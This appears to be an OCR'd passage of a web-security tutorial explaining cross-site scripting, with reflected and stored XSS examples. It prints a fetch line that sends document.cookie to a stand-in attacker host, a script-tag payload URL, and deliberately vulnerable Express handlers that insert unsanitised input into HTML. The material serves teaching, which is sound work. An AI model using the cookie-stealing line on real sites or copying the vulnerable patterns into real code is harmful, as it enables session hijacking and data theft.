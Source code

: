 - The user's cookies and session data for that site (enabling session hijacking)
- Any sensitive information displayed on the page (credit card numbers, private messages, etc.)
- The ability to make requests to the site with the user's credentials
- The DOM, allowing modification of what the user sees
- Access to the user's webcam, location, and other sensitive browser APIs (if the site has permission)

For example, if an attacker can inject this code into a page, they will steal the cookies of any user who executes this:

```javascript
fetch('https://attacker.com/steal?cookie=' + document.cookie);
```

## Types of XSS

### Reflected XSS

Reflected XSS happens when the server immediately echoes malicious input back to the user. This typically occurs in search features, error messages, or other responses that include user input.

Example vulnerability:
```javascript
// Search feature that displays the search query
app.get('/search', (req, res) => {
  const query = req.query.q;
  res.send(`<h1>Search results for ${query}</h1>`);
});
```

Attack:

1. Attacker crafts a malicious URL:
   ```
   https://example.com/search?q=<script>alert('xss')</script>
   ```
2. Attacker sends link to victim (via email, message, etc.)
3. Victim clicks link, sending the payload to the server
4. Server reflects payload back in the response
5. Victim's browser executes the script

### Stored XSS

In stored XSS (also called persistent XSS), the malicious script is permanently stored on the target server (e.g., in a database) and served to multiple victims. For example, this discussion forum code is vulnerable:

```javascript
// Server code - storing a comment
app.post('/comments', (req, res) => {
  const comment = req.body.comment;
  // Vulnerability: comment stored without sanitization
  db.comments.insert(comment);
});

// Server code - displaying comments
app.get('/post/:id', (req, res) => {
  const comments = db.comments.findByPostId(req.params.id);
  // Vulnerability: comments inserted directly into HTML
  res.send(`
    <h1>Post</h1>
    <div class="comments">
      ${comments.map(c => `<div>${c}</div>`).join('')}
    </div>
  `);
});
```
